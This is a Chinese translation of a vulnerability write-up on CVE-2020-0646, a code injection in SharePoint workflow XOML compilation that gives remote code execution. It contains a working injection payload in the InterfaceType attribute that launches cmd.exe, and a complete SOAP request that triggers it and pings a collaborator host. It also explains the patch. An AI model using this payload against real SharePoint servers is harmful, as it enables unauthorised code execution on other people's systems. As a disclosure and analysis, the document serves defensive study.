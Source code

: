 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/wFbrKvgs7uyc-CKFlflPZg)

工作流中的代码注入导致 SharePoint RCE (CVE-2020-0646)

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1SDX2UByRxEBNEAniadkdnFZvlSOrsKAUSdNyTZMZxiaYVqTxwoRlJnh3KTK00JNeq6rjMQY1QcuhA/640?wx_fmt=png)

说明

2019 年 11 月向微软报告了 SharePoint Online 中通过工作流代码注入的远程代码执行问题，该问题在在线平台上立即得到了解决。然而，主要问题已于 2020 年 1 月在. NET 框架中进行了修补。因此，没有 2020 年 1 月. NET 补丁的 SharePoint On-Premise 版本仍然受到影响。

需要注意的是，当 IIS 支持. XOML 扩展名时，这个问题也可能被滥用于文件上传攻击。

虽然这个漏洞的影响与之前发现的以下缺陷相同，因为它们都影响同一个模块，但它使用了不同的技术，而且它不是绕过已实施的修复程序。

https://www.nccgroup.trust/uk/our-research/technical-advisory-bypassing-workflows-protection-mechanisms-remote-code-execution-on-sharepoint/

https://www.nccgroup.trust/uk/our-research/technical-advisory-bypassing-microsoft-xoml-workflows-protection-mechanisms-using-deserialisation-of-untrusted-data/

**CVE-2020-0646 分析**

在编译 XOML 格式文件时，System.Workflow.Activities 命名空间中的一些参数可能被滥用，在 SharePoint 服务器上运行任意代码。这个问题还绕过了 Workflow 编译器的 nocode 选项，因为它仍然可以执行任意代码。

以下 XOML 文件显示了使用 CallExternalMethodActivity 类时的一个例子。

```
<SequentialWorkflowActivity x:Class="MyWorkflow" x:>
  <CallExternalMethodActivity x: MethodName='test1' InterfaceType='System.String);}Object/**/test2=System.Diagnostics.Process.Start("cmd.exe","/c calc");private/**/void/**/foobar(){//' />
</SequentialWorkflowActivity>
```

  
InterfaceType 属性的值在编译过程中被注入到生成的临时 C# 文件中：

```
private void InitializeComponent()
    {
        …
        this.codeActivity1.InterfaceType = typeof(System.String);}Object/**/test2=System.Diagnostics.Process.Start("cmd.exe","/c calc");private/**/void/**/foobar(){//);      
        …
    }
```

因此，可以从函数中逃逸出运行代码。需要注意的是，其他字符串类型属性（如上例中的 MethodName）都被正确验证或转义，而 InterfaceType 属性受到影响。

CodeActivity 类的 ExecuteCode 参数也同样受到影响，但它在 SharePoint Online 版本上没有被授权，只能在 On-Premise 版本上工作。其他活动也可能被滥用。

以下 HTTP 请求可用于在 SharePoint Online 上执行代码为例：

```
POST http://[REDACTED].sharepoint.com/_vti_bin/webpartpages.asmx HTTP/1.1
Date: Tue, 29 Oct 2019 14:26:21 GMT
MIME-Version: 1.0
Accept: */*
SOAPAction: http://microsoft.com/sharepoint/webpartpages/ValidateWorkflowMarkupAndCreateSupportObjects
User-Agent: Mozilla/4.0 (compatible; MS FrontPage 15.0)
Host: [REDACTED].sharepoint.com
Accept-Language: en-us, en;q=0.1
Accept: auth/sicily
X-FORMS_BASED_AUTH_ACCEPTED: T
Content-Type: text/xml; charset=utf-8
X-Vermeer-Content-Type: text/xml; charset=utf-8
Accept-encoding: gzip, deflate
Connection: Keep-Alive
Pragma: no-cache
Content-Length: 1031
Cookie: [REDACTED]

<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"><soap:Body><ValidateWorkflowMarkupAndCreateSupportObjects xmlns="http://microsoft.com/sharepoint/webpartpages"><workflowMarkupText><![CDATA[
<SequentialWorkflowActivity x:Class="MyWorkflow" x:
                            xmlns="http://schemas.microsoft.com/winfx/2006/xaml/workflow">
  <CallExternalMethodActivity x: MethodName='test1' InterfaceType='System.String);}Object/**/test2=System.Diagnostics.Process.Start("cmd.exe","/c ping o9ydzn3p7ed579lepxolocqyqpwik7.[redactedBurpCollabServer]");private/**/void/**/foobar(){//' />

</SequentialWorkflowActivity>


]]></workflowMarkupText><rulesText></rulesText><configBlob></configBlob><flag>2</flag></ValidateWorkflowMarkupAndCreateSupportObjects></soap:Body></soap:Envelope>
```

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1SDX2UByRxEBNEAniadkdnFLqblLwjlhicjhY7ft467EnPc0e9iaAmVxuGFxDbTffL2fyB7b9xoRd2g/640?wx_fmt=png)

结果，DNS 名称被解析：

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV1SDX2UByRxEBNEAniadkdnFmEibib6sMaBAD3UTkhhnZia4G67DmNO8ZuLK4viboSGaxyVJBMzvuhiaAiaA/640?wx_fmt=png)

On-Premise 版本也可以使用上述请求进行利用。

应用 CVE-2020-0646 补丁后，会检查工作流中的所有 XML 元素和属性，以确保它们只包含有限数量的允许字符。因此，当使用所选的 nocode 选项时，不再可能在默认配置中向生成的 C# 代码中注入任意代码。

参考文献：

https://www.mdsec.co.uk/2020/01/code-injection-in-workflows-leading-to-sharepoint-rce-cve-2020-0646/?fbclid=IwAR0b4QZxdQKVYN-ES62rdt9yN5MMzfgpK7DkdkbIq44Flm-ODiuqzeIglUQ
